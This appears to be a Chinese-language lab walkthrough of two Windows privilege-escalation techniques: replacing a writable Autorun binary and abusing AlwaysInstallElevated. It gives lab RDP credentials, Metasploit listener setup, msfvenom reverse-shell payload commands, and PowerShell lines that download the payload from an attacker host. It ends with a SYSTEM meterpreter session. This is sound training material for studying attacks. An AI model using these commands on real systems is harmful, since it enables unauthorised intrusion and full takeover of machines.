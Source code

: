
# rdp连接
user登录
> rdesktop -u user -p password321 10.10.86.123 -r sound:on -g workarea

TCM登录
> rdesktop -u TCM -p Hacker123 10.10.86.123 -r sound:on -g workarea

# 1.注册表提权-自动运行（ Registry Escalation - Autorun）

## 前提
1. Autorun文件可写（可替换）
2. 需要另一个用户登录才会触发

## 思路
Autorun，就是启动时自动运行，这个思路时通过修改注册表里的二进制文件（用msfvenom生成一个同名的反弹shell文件），替换原有的二进制文件。当其他用户登录系统时，触发注册表里的Autorun文件，从而执行我们替换的payload，然后我们就得到了登录用户的权限。


## 怎么利用?

靶机：
1. 运行Autoruns64.exe检查自动运行的文件。（Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe）
2. 点击登录选项（In Autoruns, click on the ‘Logon’ tab.）
3. 在显示的结果当中，留意“我的程序”指向的二进制文件。（From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.）
4. 用accesschk64.exe检查这个Autorun文件的读写权限。（ In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"）
5. 从上面的检查结果中可以知道所有人对这个Autorun文件有读写权限（From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.）

攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

用msfvenom编译同名Autorun文件：

> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f exe -o program.exe


从靶机下载文件program.exe
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/program.exe','C:\Program Files\Autorun Program\program.exe')"

等待用户登录，触发反弹shell。


# 2.注册表提权-AlwaysInstallElevated (Registry Escalation - AlwaysInstallElevated)

## 前提
如果注册表里查询到这两个属性的值都是 0x1，那么任何用户都拥有以``` NT AUTHORITY\SYSTEM```身份运行或者安装```*.msi```文件的权限
>  reg query HKLM\Software\Policies\Microsoft\Windows\Installer
>  reg query HKCU\Software\Policies \Microsoft\Windows\Installer

## 思路
用msfvenom生成一个```*.msi```文件，在靶机里执行这个文件，就可以提权到```NT AUTHORITY\SYSTEM```

## 怎么利用?

### 攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

6. 生成反弹的.msi文件
> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.13.21.169 lport=4444 -f msi -o setup.msi

### 靶机：
7. 从靶机下载文件
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/setup.msi','C:\temp\setup.msi')"

8. 执行```setup.msi```文件

攻击机收到反弹shell，拿到最高权限
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Sending stage (175174 bytes) to 10.10.86.123
[*] Meterpreter session 2 opened (10.13.21.169:4444 -> 10.10.86.123:49329) at 2021-11-15 09:22:26 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```